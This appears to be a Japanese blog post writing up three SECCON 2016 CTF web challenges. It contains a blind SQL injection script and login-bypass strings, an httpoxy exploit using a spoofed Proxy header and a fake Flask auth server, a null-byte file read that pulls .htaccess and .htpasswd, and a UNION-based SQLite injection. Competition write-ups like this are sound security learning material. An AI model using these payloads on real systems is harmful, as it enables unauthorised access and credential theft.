 ```yaml
---
layout: post
title: SECCON 2016 オンライン予選に参加しました
categories: [ctf]
date: 2016-12-11 16:53:00 +0900
---
```


hiww さん ([@hiww](https://twitter.com/hiww)) のお誘いでチーム [Harekaze](http://harekaze.com/) として SECCON 2016 Online CTF に参加しました。
最終的にチームで 1300 点を獲得し、チーム順位は 61 位 (得点 930 チーム中) でした。

私は Web カテゴリの問題を中心に取り組んで、

- basiq (Web 100)
- pppppoxy (Web 200)
- uncomfortable web (Web 300)

の 3 問を解きました。

チームメンバーの write-up はこちら。

- [@konjo_p](https://twitter.com/konjo_p) さん : [SECCON2016qual 参加記 - 学習の栞](http://konjo-p.hatenablog.com/entry/2016/12/11/204700)
- [@_jptomoya](https://twitter.com/_jptomoya) さん : [SECON 2016 Online CTFに参加していた - 気まぐれ雑記(仮)](http://jptomoya.hatenablog.com/entry/2016/12/12/140136)
- [@hiww](https://twitter.com/hiww) さん : [晴風(Harekaze)でSECCON 2016 Online CTFに参加して轟沈したお話。 - 備忘録的なやつ](http://hiww.hatenablog.com/entry/20161213/harekaze)

以下、私の write-up です。

## basiq (Web 100)
以前見たことがあるような競馬のサービスから admin のパスワードを手に入れる問題でした。

どこから攻めればいいのか分からずだいぶ悩んでいましたが、[@tatarhy](https://twitter.com/tatarhy) さんのコメントで http://basiq.pwn.seccon.jp/admin/ にアクセスすると認証ダイアログが表示されると分かりました。

これは怪しいと思い、試しにユーザ名に `admin`、パスワードに `' or 1;#` と入力するとログインに成功しました。
また、ユーザ名に `admin`、パスワードに `' and 0;#` と入力するとログインに失敗しました。

このことから Blind SQLi ができるのではないかと考え、まず以下のコードで確かに情報を抜けることを確認しました。

```python
import requests
import sys

def check(c):
  return c == 200

url = 'http://basiq.pwn.seccon.jp/admin/'

i = 1
res = ''

while True:
  high = 0x7e
  low = -1

  while abs(high - low) > 1:
    mid = (high + low) // 2

    c = requests.get(url, auth=('admin', query.format(i, mid)))

    if check(c.status_code):
      high = mid
    else:
      low = mid

  res += chr(high)
  print(i, res)
  i += 1
```

結果は `5.5.50-MariaDB` でした。

続いてどのようなデータベースがあるか確認するため、`query` を `' and 0 or substr((select group_concat(distinct hex(table_schema)) from information_schema.tables where table_schema != 'information_schema'), {}, 1) <= binary 0x{:x};#` に変え実行しました。`keiba` というデータベースがあると分かりました。

さらに `information_schema.columns` からテーブル名とカラム名を抜き出すと、`id` `name` `pass` というカラムを持つ `☹☺☻` (`\u2639\u263a\u263b`) というテーブルがあると分かりました。

あとは `keiba.☹☺☻` からパスワードを抜き出すだけです。

```
SECCON{Carnival}
```

## pppppoxy (Web 200)
配布された `pppppoxy.exe` という実行ファイルを実行すると、ブラウザで `127.0.0.1:81` が開かれました。`127.0.0.1:81` では Web アプリが動いており、これの認証を突破する問題でした。この問題は Harekaze が first solve でした。

この問題名から思い出されるのは、[httpoxy](https://httpoxy.org/) という脆弱性です。

試しに `python -m SimpleHTTPServer 8000` で待ち受けながら `curl -X POST http://127.0.0.1:81 --data "user=admin&pass=hoge" -H "Proxy: http://127.0.0.1:8000"` を実行してみました。すると、`GET http://127.0.0.1:81/Authenticator?user=admin HTTP/1.0` という HTTP リクエストが飛んできました。ビンゴです。

`http://127.0.0.1:81/Authenticator?user=admin` にアクセスすると `{"hash":"C432A8174394A3F655B2BD29BB075E4C"}` という JSON が返ってきました。このハッシュは文字数からしておそらく MD5 でしょう。

これを利用して、以下のようなコードを書きました。

```python
from flask import Flask
app = Flask(__name__)

@app.errorhandler(404)
def not_found(e):
    return '{"hash":"21232F297A57A5A743894A0E4A801FC3"}', 404

if __name__ == "__main__":
    app.run(port=8000)
```

これを動かしながら `curl -X POST http://127.0.0.1:81 --data "user=admin&pass=admin" -H "Proxy: http://127.0.0.1:8000"` を実行するとフラグが出ました。

```
SECCON{D5691FB40B2AF60CA78DA78AC65A71E2}
```

## uncomfortable web (Web 300)
シェルスクリプトやらなんやらを実行できる Web アプリと、その Web アプリからのみアクセスできる Web アプリがあり、前者から後者を攻略する問題でした。

この問題もどこから攻めればいいのかが分からず悩んでいましたが、`curl "http://127.0.0.1:81/select.cgi?txt=a.txt%00"` のように null バイトを入れるとよいと気付いて進捗しました。

`/authed/` 下を見る認証に必要な情報を得るために `http://127.0.0.1:81/select.cgi?txt=.htaccess%00` で `.htaccess` を抜き出しました。

```
AuthUserFile /var/www/html-inner/authed/.htpasswd
AuthGroupFile /dev/null
AuthName "SECCON 2016"
AuthType Basic
Require user keigo
```

認証に使用するユーザ名とパスワードの一覧は `.htpasswd` に格納されているようです。同じように抜き出しました。

```
keigo:LdnoMJCeVy.SE
```

gen さん ([@neglect_yp](https://twitter.com/neglect_yp)) がパスワードは `test` であるとコメントされていたので、得られた情報から `/authed/` 下を見ると以下のような構成になっていました。

```
[TXT]	a.txt	30-Nov-2016 09:59	888	 
[TXT]	b.txt	28-Nov-2016 12:00	78	 
[TXT]	c.txt	30-Nov-2016 10:04	48	 
[DIR]	sqlinj/	28-Nov-2016 11:41	-	 
```

`/authed/sqlinj/` 下は `{1..100}.cgi` という感じで 100 個のファイルがあり、そのいずれかで SQLi が行えるようでした。

HTML のコメントに `<!-- by KeigoYAMAZAKI, 2016.11.25- -->` とあったため、`SQLite` を使用していると考え、以下のコードでどのファイルで SQL インジェクションが行えるか確かめました。

```python
#!/usr/bin/python
import requests
for x in range(1, 101):
  print '[' + str(x) + ']'
  print requests.get('http://127.0.0.1:81/authed/sqlinj/{0}.cgi?no=\'||\'4822267938'.format(x), auth=('keigo', 'test')).content
```

`72.cgi` で SQL インジェクションが行えると分かりました。あとはやるだけです。

`http://127.0.0.1:81/authed/sqlinj/72.cgi?no=4822267939' union select 1, 2, (select group_concat(sql) from sqlite_master) where 1 or '` で `f1ag` というカラムを持つ `f1ags` というテーブルがあると分かります。

`select group_concat(sql) from sqlite_master` を `select group_concat(f1ag) from f1ags` に変えるとフラグが出ました。

```
SECCON{I want to eventually make a CGC web edition... someday...}
```
